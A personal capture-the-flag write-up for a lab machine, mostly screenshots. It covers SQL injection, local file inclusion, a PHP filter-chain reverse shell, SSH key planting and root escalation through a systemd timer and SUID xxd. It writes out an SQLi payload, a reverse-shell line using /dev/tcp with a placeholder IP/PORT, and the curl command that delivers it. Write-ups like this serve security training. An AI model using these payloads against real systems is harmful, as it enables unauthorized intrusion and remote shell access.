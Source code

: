 ```yaml
---
sticker: emoji//1f9c0
---
```


![](cybersecurity/images/Pasted%2520image%252020240927153835.png)
This CTF contains a port scanning "block" method, since it show a lot of open ports in which most of services, are unavailable, for our luck, port 80 is open and has a login page:

![](cybersecurity/images/Pasted%2520image%252020240927153919.png)
I tried different things such as `XSS` `LFI` `PATH TRAVERSAL` `BRUTEFORCE` and more, then when i tried `SQLI` I found a path to exploit, after trying multiple payloads, got with this one that worked for me:

`' || '1'='1';-- -`

Had to URL encode it:

`%27%20%7C%7C%20%271%27%3D%271%27%3B--%20-`

And it showed the following output:

![](cybersecurity/images/Pasted%2520image%252020240927154104.png)

That location seems fun, lets visit it:

We got admin panel even without credentials:

![](cybersecurity/images/Pasted%2520image%252020240927154210.png)
After looking for a while, I found that the request for messages, got me this message:

![](cybersecurity/images/Pasted%2520image%252020240927154349.png)

Let's visit it:

![](cybersecurity/images/Pasted%2520image%252020240927154523.png)

Nothing too useful, but then, looking at the URL I thought about a `LFI`, when i sent the request, i got this:

![](cybersecurity/images/Pasted%2520image%252020240927154621.png)
I was able to read `etc/passwd` file, this website is vulnerable to `LFI`, let's get a reverse shell:

For this, i will be using the following tool:

```github
https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py`
```

Also, a simple php reverse shell, i will store it in a file called payload.txt: 

```php
"<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/IP/PORT 0>&1\"'); ?>" | grep "^php" > payload.txt
```

Now, let's send the reverse shell and establish a connection to our machine:

###### Sending the payload
`curl "http://10.10.142.162/secret-script.php?file=$(cat payload.txt)"`

![](cybersecurity/images/Pasted%2520image%252020240927160128.png)


![](cybersecurity/images/Pasted%2520image%252020240927160136.png)
We got our reverse shell, let's make it stable using the [[STABLE SHELL|shell tricks]]::

![](cybersecurity/images/Pasted%2520image%252020240927160349.png)
Now, we have an stable shell, let's look for privesc:

![](cybersecurity/images/Pasted%2520image%252020240927160513.png)
We cannot read user.txt contents neither use sudo -l due to the lack of the password for the user, let's look at SUID files:

![](cybersecurity/images/Pasted%2520image%252020240927160551.png)

Nothing useful too, let's keep enumerating the machine:

![](cybersecurity/images/Pasted%2520image%252020240927160737.png)
in `/home/comte/.ssh` we can read and write authorized keys, let's put ours:

![](cybersecurity/images/Pasted%2520image%252020240927161025.png)
![](cybersecurity/images/Pasted%2520image%252020240927161221.png)
I could enter ssh using my own key, let's read that `user.txt` file:

![](cybersecurity/images/Pasted%2520image%252020240927161301.png)\

For privilege escalation we have this sudo permissions:

![](cybersecurity/images/Pasted%2520image%252020240927161701.png)
When i read the `exploit.timer` file, I see this:

![](cybersecurity/images/Pasted%2520image%252020240927161722.png)
Let's change the `OnBootSec` to 5 seconds and enable the service to see what it does:

![](cybersecurity/images/Pasted%2520image%252020240927161803.png)
![](cybersecurity/images/Pasted%2520image%252020240927162007.png)
Once I did this, I found that a new binary was added to the 4000 UID binaries, let's exploit `xxd` to gain root shell:

![](cybersecurity/images/Pasted%2520image%252020240927162104.png)

![](cybersecurity/images/Pasted%2520image%252020240927162740.png)
Now, i got root authorized key access:

![](cybersecurity/images/Pasted%2520image%252020240927162817.png)
just like that, machine is done:

![](cybersecurity/images/Pasted%2520image%252020240927162856.png)


